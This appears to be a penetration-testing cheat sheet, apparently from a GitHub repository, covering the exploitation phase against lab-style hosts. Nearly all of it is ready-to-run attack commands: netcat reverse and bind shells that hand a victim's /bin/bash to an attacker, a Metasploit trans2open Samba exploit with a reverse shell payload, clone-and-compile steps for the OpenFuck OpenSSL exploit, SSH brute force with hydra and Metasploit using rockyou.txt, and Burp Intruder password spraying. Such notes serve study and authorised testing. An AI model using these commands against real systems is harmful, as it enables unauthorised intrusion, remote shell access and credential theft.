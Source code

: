 ## Exploitation

Reverse Shell : victim connect to attackers port

attacker (10.10.10.11)
```
nc -lnvp 4444
```

victim (10.10.10.10)
```
nc 10.10.10.11 4444 -e /bin/bash
``

Bind Shell : attacker connect to victims port

attacker (10.10.10.11)
```
nc 10.10.10.10 4444
```

victim (10.10.10.10)
```
nc -lnvp 4444 -e /bin/bash
``

Non-staged Payload : sends exploit shellcode all at once (ie. windows/meterpreter_reverse_tcp)

Staged Payload : sends payload in stages (ie. windows/meterpreter/reverse_tcp)

### via Metasploit

```
msfconsole 

search trans2open
use exploit/linux/samba/trans2open
set RHOSTS 10.10.10.10
set PAYLOAD linux/x86/shell_reverse_tcp
set LHOST tun0
run
```

### via Manual

[exploit link](https://github.com/heltonWernik/OpenLuck)

```
git clone https://github.com/heltonWernik/OpenFuck.git

apt-get install libssl-dev

gcc -o OpenFuck OpenFuck.c -lcrypto

./OpenFuck 0x6a 10.10.10.10 443 -c 40
```

### brute force

metasploit
```
msfconsole

search ssh login
use auxiliary/scanner/ssh_login
set RHOSTS 10.10.10.10
set USERNAME root
set PASS_FILE /usr/share/wordlists/rockyou.txt
set VERBOSE true
run
```

hydra
```
hydra -l root -P /usr/share/wordlists/rockyou.txt 10.10.10.10 22 -t 4 -V
```

### password spraying

burpsuite

Intercept on -> Send to Intruder -> Positions -> Clear -> Add your parameter -> Payloads -> Paste Payload -> Start attack
